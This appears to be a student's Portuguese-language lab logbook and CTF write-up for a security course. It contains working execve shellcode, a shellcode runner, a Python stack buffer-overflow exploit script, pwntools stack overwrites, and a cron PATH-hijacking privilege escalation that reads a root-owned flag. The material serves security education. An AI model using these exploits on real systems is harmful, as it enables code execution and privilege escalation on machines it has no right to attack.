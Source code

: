 # Logbook 5

## Task 1

```
xor  rdx, rdx        ; rdx = 0: execve()’s 3rd argument
push rdx
mov  rax, ’/bin//sh’ ; the command we want to run
push rax
mov  rdi, rsp
push rdx
push rdi
mov  rsi, rsp
;
; rdi --> "/bin//sh": execve()’s 1st argument
; argv[1] = 0
; argv[0] --> "/bin//sh"
; rsi --> argv[]: execve()’s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()’s system call number
syscall
```

O código em C gerado a partir do código shell mostrado acima, é o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
int main(int argc, char **argv){
   char code[500];
   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
}
```
O código acima contém duas cópias do código shell.  Quando compilamos o programa utilizando a flag -m32, é usada a versão de 32-bit, enquanto que sem a flag, é usada a versão de 64-bit. 

Utilizando o ficheiro Makefile presente no diretório do logbook, compilamos o código com make. Foram criados dois ficheiros binários, um a32.out e um a64.out. A compilação usa a opção execstack, que permite que o código seja executado a partir da stack, mas sem esta opção o programa falha.

__1) Correr o ficheiro a32.out__
![](https://i.imgur.com/gS1eS11.png)

__2) Correr o ficheiro a64.out__
![](https://i.imgur.com/OYuyqnY.png)

#### Conclusões
O resultado da execução de ambos os ficheiros é o mesmo.

## Task 2

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
 * won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1; 
}
int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

#### Results in terminal:
![](https://i.imgur.com/cEGRMtf.jpg)


#### Conclusões

Existem 4 executáveis com configurações ligeiramente diferentes, possuindo valores diferentes em DBUF_SIZE.
Utilizamos a stack-L1.

## Task 3

Para explorar a vulnerabilidade de *buffer overflow* no programa de destino, a coisa mais importante a saber é a distância entre a posição inicial do buffer e o local onde o endereço de retorno está armazenado. Utilizamos um método de *debugging* descrito no tutorial SEEDS, e encontramos o endereço do *frame pointer* e do *buffer*



![](https://i.imgur.com/jt5G3R6.jpg)

Utilizamos o seguinte código para o ataque:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc + start 
offset = 0xffffca48 + 4 - 0xffffc9dc

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

O objetivo é colocar o nosso *shellcode* numa região acima do *return address* e alterá-lo para apontar para esse local.

![](https://i.imgur.com/mr1uds2.png)

---

# CTF

## Semana 5 - Desafio 1

scanf("%28s", &buffer); -> lê 32 caractéres para o buffer
char buffer[20]; -> o buffer foi declarado com 20 bytes
Encontrámos assim uma vulnerabilidade comum, o buffer overflow.

char meme_file[8] = "mem.txt\0"; -> diretamente a seguir a buffer na stack está alocado meme_file, com 8 bytes

FILE *fd = fopen(meme_file,"r"); -> precisamos que meme_file seja "flag.txt\0"

Usando pwntools, no scanf, enviámos um caracter arbitrário 20 vezes, seguido de "flag.txt\n".

## Semana 5 - Desafio 2

Segue-se o mesmo princípio que no desafio 1, simplesmente temos de também reescrever val com o valor correto para passar o check.

scanf("%32s", &buffer); -> lê 32 caractéres para o buffer
char buffer[20]; -> o buffer foi declarado com 20 bytes
Buffer overflow novamente.

char val[4] = "\xef\xbe\xad\xde"; -> diretamente a seguir a buffer na stack está alocado val, com 4 bytes
char meme_file[8] = "mem.txt\0"; -> e diretamente a seguir a val está alocado meme_file, com 8 bytes

if(*(int*)val == 0xfefc2223) -> precisamos que este check seja true
FILE *fd = fopen(meme_file,"r"); -> e precisamos que meme_file seja "flag.txt\0"

Usando pwntools, no scanf, enviámos um caracter arbitrário 20 vezes, seguido de 4 bytes com o endereço 0xfefc2223, seguido de "flag.txt\n".
Importante notar que o endereço tem de ser enviado na ordem "\x23\x22\xfc\xfe", já que a máquina é little endian.

## British Punctuality

-Passo 1, ler conteúdo dos ficheiros em ~/
Lendo ~/main.c, apercebemo-nos que a flag está provavelmente em /flags/flag.txt
~/my_script.sh primeiro faz source das PATH variables em /tmp/env, e corre printenv sem path absoluto, algo que podemos atacar se o script for corrido por algum utilizador com permissões necessárias.

-Passo 2, explorar ficheiros a que temos acesso
Encontrámos um ficheiro, /tmp/last_log, que aparentava ser o output de ~my_script.sh corrido com permissões necessárias para aceder à flag.
Encontrámos também /etc/cron.d/my_cron_script, que corre a cada minuto, e lendo o seu conteúdo apercebemo-nos que é exatamente o script que produz /tmp/last_log a cada minuto.

-Passo 3, criar um executável com o código maligno
Verificámos que podemos escrever em /tmp/, portanto criámos um ficheiro /tmp/hackerman.c com o comando system("cat /flags/flag.txt");
Compilámos esse ficheiro como /tmp/printenv

-Passo 4, mudar as variáveis de ambiente
Escrevemos um /tmp/env com "PATH=/tmp:&PATH", algo que será sourced por ~/my_script.sh

-????

-PROFIT!!!
